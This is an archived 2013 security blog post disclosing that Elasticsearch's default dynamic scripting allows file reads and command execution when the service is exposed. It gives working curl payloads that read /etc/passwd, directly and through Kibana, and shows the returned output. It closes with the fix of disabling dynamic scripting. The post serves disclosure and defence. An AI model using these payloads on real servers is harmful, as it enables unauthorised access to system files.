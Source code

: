 ```yaml
---
date: "2013-11-30 20:33:00 GMT"
slug: "elasticsearch-command-execution-using-script"
tumblr_post_url: "http://blog.liftsecurity.io/post/68592779657/elasticsearch-command-execution-using-script"
tags: 
  - elasticsearch
  - feature
  - command execution
  - script
title: "Elasticsearch Command Execution using \"script\""
type: text
---
```

In the process of trying to full text index all of the source code from node modules within npm for the Node Security Project, I encountered a feature of Elasticsearch that I couldn't stay away from playing with: scripting.  
  
Sometimes the most innocent of features can create a vulnerability. Scripting is enabled by default in Elasticsearch and if left bound to a public interface allows for easy system command execution.  
  
**Elasticsearch**  
  
Here is a simple example to read /etc/passwd  
  

> \# Create a document  
> curl -XPUT :9200/blog/article/1/ -d '{"foo":"bar"}'
> 
>   
> \# Update it running the provided script. It puts the file contents in the content field.
> 
>   
> curl -XPOST :9200/blog/article/1/\_update -d '{"script": "ctx.\_source.content = 1;import java.util.\*;import java.io.\*;String content=new Scanner(new File("/etc/passwd")).useDelimiter("\\\\Z").next();ctx.\_source.content=content"}'  
>   
> \# Now get the content  
> curl :9200/blog/article/1/  
>   
> \# Result  
> {  
> "\_index" : "blog",  
> "\_type" : "article",  
> "\_id" : "2",  
> "\_version" : 2,  
> "exists" : true, "\_source" : {"content":"root:x:0:0:root:/root:/bin/bash\\ndaemon:x:1:1:daemon:/usr/sbin:/bin/sh\\nbin:x:2:2:bin:/bin:/bin/sh\\nsys:x:3:3:sys:/dev:/bin/sh\\nsync:x:4:65534:sync:/bin:/bin/sync\\ngames:x:5:60:games:/usr/games:/bin/sh\\nman:x:6:12:man:/var/cache/man:/bin/sh\\nlp:x:7:7:lp:/var/spool/lpd:/bin/sh\\nmail:x:8:8:mail:/var/mail:/bin/sh\\nnews:x:9:9:news:/var/spool/news:/bin/sh\\nuucp:x:10:10:uucp:/var/spool/uucp:/bin/sh\\nproxy:x:13:13:proxy:/bin:/bin/sh\\nwww-data:x:33:33:www-data:/var/www:/bin/sh\\nbackup:x:34:34:backup:/var/backups:/bin/sh\\nlist:x:38:38:Mailing List Manager:/var/list:/bin/sh\\nirc:x:39:39:ircd:/var/run/ircd:/bin/sh\\ngnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh\\nnobody:x:65534:65534:nobody:/nonexistent:/bin/sh\\nlibuuid:x:100:101::/var/lib/libuuid:/bin/sh\\nsyslog:x:101:103::/home/syslog:/bin/false\\nmessagebus:x:102:105::/var/run/dbus:/bin/false\\nlandscape:x:103:108::/var/lib/landscape:/bin/false\\nsshd:x:104:65534::/var/run/sshd:/usr/sbin/nologin\\nwhoopsie:x:105:109::/nonexistent:/bin/false\\nelasticsearch:x:106:113::/usr/share/elasticsearch:/bin/false\\nntp:x:107:114::/home/ntp:/bin/false"}  
> }
> 

  
**Kibana**  
Sometimes Elasticsearch is hidden behind the veil of another service like Kibana. It's still possible to get execution using Kibana, as it essentially proxies our queries straight into Elasticsearch.

> curl 'http://kibana.example.net/logstash-2013.11.11/\_search' -X POST -H 'Authorization: Basic eWV0aXM6em9vbXpvb21idXR0ZXI=' -H 'Host: kibana.example.net' -d @script\_kibana
> 

  
_Contents of @script\_kibana_

> {"query":{"filtered":{"query":{"bool":{"should":\[{"query\_string":{"query":"\*"}}\]}},"filter":{"bool":{"must":\[{"match\_all":{}},{"range":{"@timestamp":{"from":1384193353299,"to":1384196953300}}},{"bool":{"must":\[{"match\_all":{}}\]}}\]}}}},"highlight":{"fields":{},"fragment\_size":2147483647,"pre\_tags":\["@start-highlight@"\],"post\_tags":\["@end-highlight@"\]},"size":1,"sort":\[{"@timestamp":{"order":"desc"}}\],"script\_fields": {"uid\_in\_script": **{"script": "import java.util.\*;import java.io.\*;String content = new Scanner(new File("/etc/passwd")).useDelimiter("\\\\Z").next();return content;"}**}}
> 

  
  
**Avoid having somebody run commands on your Elasticsearch servers**  
  
You can disable this feature by adding the following to your Elasticsearch config file, then restarting the service. Keep in mind that you will want to disable this on all the nodes in your cluster.

> script.disable\_dynamic: true
> 

  
Of course if you need to have scripting enabled and don't have your nodes exposed to the outside world I would just recommend that you build your elastisearch payloads very methodically not letting the user specify specifics that end up in the query / update payloads.
